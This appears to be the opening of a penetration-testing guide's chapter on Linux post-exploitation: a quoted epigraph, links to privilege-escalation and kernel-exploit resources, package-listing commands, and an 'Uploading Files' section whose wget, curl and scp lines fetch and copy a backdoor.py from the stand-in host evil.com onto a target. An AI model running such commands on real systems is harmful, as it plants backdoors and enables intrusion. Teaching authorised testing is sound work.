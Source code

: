 # Chapter 5 - Linux Post-Exploitation

> _Unplug the network cable and instantiate draconian measures for physical security, You’ll make sure nobody can get in, but you’ll also make sure that nobody actually wants to use the platform. And that may sound like an extreme case, but it’s a very fundamental issue in security. You cannot look at security as something separate. Security issues are ‘just’ normal bugs_
>
> _**— **_**Linus Torvald**

This is the phase I like to refer to as second pass enumeration or enumeration from the inside. Now that we've gained a foothold into the network it is crucial to run all of our enumeration from the ground up as an inside actor.

##### Resources

[The Linux Programming Interface](https://moodle2.units.it/pluginfile.php/115306/mod_resource/content/1/The Linux Programming Interface-Michael Kerrisk.pdf)

[DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

[kernel-exploits - GitHub](https://github.com/xairy/kernel-exploits)

[Linux Kernel Exploits - GitHub](https://github.com/SecWiki/linux-kernel-exploits)

[Basic Linux Privilege Escalation - g0tm1lk](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[UNIX PrivEsc Check](https://github.com/pentestmonkey/unix-privesc-check)

[LinEnum](https://github.com/rebootuser/LinEnum)

[linuxprivchecker.py](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123)

[Linux PrivEsc for fun and profit and all around mischief](https://www.youtube.com/watch?v=dk2wsyFiosg)

[A PenTester's Guide to Pivoting](http://hackingandsecurity.blogspot.com/2017/10/a-red-teamers-guide-to-pivoting.html)

[Understanding systemd](https://n0where.net/understanding-systemd/)

##### Listing Packages

```
Kali> dpkg -l
Kali> rpm -qa
```

##### Uploading Files

```
Kali> wget http://evil.com/backdoor.py
Kali> curl http://evil.com/backdoor.py
Kali> scp ~/backdoor.py user@$TARGET:tmp/backdoor.py
```

##### Port Redirection
